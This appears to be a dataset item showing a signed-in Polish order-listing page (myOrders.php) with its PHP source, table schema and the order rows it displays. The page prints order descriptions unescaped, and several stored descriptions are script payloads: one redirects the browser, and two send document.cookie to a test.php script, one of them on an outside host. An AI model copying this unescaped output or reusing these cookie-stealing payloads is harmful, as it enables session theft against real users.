
Screenshot of /myOrders.php (signed in) with the database file from the repository.
### tables this page shows
CREATE TABLE `orders` (
  `ID` int(10) NOT NULL,
  `clientID` int(10) NOT NULL,
  `orderItem` text NOT NULL,
  `description` text NOT NULL
);

### myOrders.php (the view, shortened to what this page needs)
<?php
require_once "navbars.php";
if($_SESSION['usergroup'] == 1  )
{
    $nav = $adminNavbar;
}
else if($_SESSION['usergroup'] == 2  )
{
    $nav = $bhpNavbar;
}
else if($_SESSION['usergroup'] == 3  )
{
    $nav = $workerNavbar;
}
else
{
    $nav = $clientNavbar;
}
?>
<!DOCTYPE HTML>
<html lang="pl">
<head>
    <link href="css/style.css" rel="stylesheet" type="text/css" />
    <link href="css/bootstrap.min.css" rel="stylesheet" type="text/css" />
</head>
<body>
<?php $ordid = $_SESSION['id']; ?>
<?php echo $nav; ?>
    <?php
    require_once "connect.php";
    $conn = new mysqli($host, $dbUser, $dbPassword, $dbName);
    if($conn->connect_errno!=0)
    {
        throw new Exception(mysqli_connect_errno());
    }
    else
    {
        $sql = "SELECT * FROM orders WHERE clientID = '$ordid' ";
        $result = $conn->query($sql);
        echo '
        <table class="table table-hover">
            <thead>
                <tr>
                <th scope="col">Zamówienie</th>
                <th scope="col">Szczegóły</th>
                </tr>
            </thead>
            <tbody>';
        while( $row = $result->fetch_assoc() )
         {
             echo '<tr class="table-primary">
                    <th scope="row">'.$row['orderItem'].'</th>
                    <td>'.$row['description'].'</td>
                    </tr>
                    ';
         }
         echo'
            </tbody>
        </table> ';
    }
    ?>
</body>
</html>

### css/style.css (style rules this page uses)
body { background-color: black; }

### rows the page displays
orders: orderItem "Usluga 1", description "<script>window.location.replace(\"http://www.w3schools.com\");</script>"
orders: orderItem "Usluga 1", description "<script>window.location.href = 'http://orfi.uwm.edu.pl/~s130719/test.php?cookie='+document.cookie</script>"
orders: orderItem "Usluga 1", description "aa"
orders: orderItem "Usluga 1", description "<script>window.location.replace(\"/~s130719/test.php?cookie=\"+document.cookie);</script>"
